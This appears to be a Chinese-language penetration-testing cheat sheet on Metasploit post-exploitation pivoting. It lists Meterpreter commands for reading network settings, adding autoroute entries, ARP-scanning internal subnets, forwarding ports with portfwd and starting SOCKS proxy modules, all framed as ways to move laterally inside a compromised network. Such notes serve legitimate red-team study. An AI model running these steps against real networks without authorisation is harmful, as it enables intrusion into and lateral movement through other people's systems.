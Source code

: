 **网络命令**
```bash
Ipconfig/ifconfig                   # 查看目标主机 IP 地址;
arp –a                              # 用于查看高速缓存中的所有项目;
route                               # 打印路由信息;
netstat -na                         # 可以显示所有连接的端口
```

其中路由信息对于渗透者来说特有用,因为攻击机处于外网,目标主机处于内网,他们之间是不能通信的,故需要添加路由来把攻击机的 IP 添加到内网里面,这样我们就可以横扫内网,就是所谓的内网代理.

首先我们需要获取网段,然后再添加路由,添加成功后就可以横向扫描内网主机.
```bash
run get_local_subnets                   # 获取网段
run autoroute -s 192.168.205.1/24       # 添加路由
run autoroute -p                        # 查看路由
run autoroute -d -s 172.2.175.0         # 删除网段
run post/windows/gather/arp_scanner RHOSTS=7.7.7.0/24   # 探测该网段下的存活主机.
meterpreter > background                # 后台 sessions
```

或者自动化
```bash
use post/multi/manage/autoroute
set session 1
exploit
```

**portfwd**

portfwd 是 meterpreter 提供的端口转发功能,在 meterpreter 下使用 portfwd -h 命令查看该命令参数.
```bash
portfwd add -l 2222 -r 1.1.1.1 -p 3389  # 将 1.1.1.3 的 3389 端口转发到本地的 2222 端口.
    -l:本地监听端口
    -r:内网目标的 ip
    -p:内网目标的端口

portfwd delete -l <port>
portfwd list


例如:
portfwd add -l 3389 -r 192.168.161.138 -p 3389
```

**pivot**

pivot 是 msf 最常用的代理,可以让我们使用 msf 提供的扫描模块对内网进行探测.
```bash
route add <ip> <mask> <session id>      # 添加一个路由
route print

如果其它程序需要访问这个内网环境,就可以建立 socks 代理
msf 提供了3个模块用来做 socks 代理.
auxiliary/server/socks4a
auxiliary/server/socks5
auxiliary/server/socks_unc

use auxiliary/server/socks4a
SRVHOST:监听的 ip 地址,默认为 0.0.0.0,一般不需要更改.
SRVPORT:监听的端口,默认为 1080.
直接运行 run 命令,就可以成功创建一个 socks4 代理隧道,在 linux 上可以配置 proxychains 使用,在 windows 可以配置 Proxifier 进行使用.
```

---